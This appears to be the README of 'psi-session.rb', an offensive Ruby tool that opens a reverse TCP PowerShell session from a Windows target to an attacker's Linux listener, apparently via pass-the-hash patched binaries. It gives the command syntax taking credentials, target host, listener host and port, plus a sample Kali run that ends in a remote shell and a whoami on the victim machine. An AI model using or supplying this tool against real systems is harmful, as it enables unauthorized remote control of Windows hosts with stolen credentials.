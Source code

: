 # psi-session.rb
Tool designed to deliver you a reverse tcp powershell prompt directly to your linux commandline.
Execution is currently done via pth patched binaries for the time being.

Syntax:

>ruby psi-session.rb DOMAIN/username password rhost lhost lport

Example:

>root@kali:~/projects/psi-session# ruby psi-session.rb bob n0passw0rd1 10.0.0.12 10.0.0.13 5000

>Windows PowerShell running as user bob on CLA-WIN7TOOLS

>Copyright (C) 2015 Microsoft Corporation. All rights reserved.

>PS C:\Windows\system32>whoami

>cla-win7tools\bob

>PS C:\Windows\system32> 
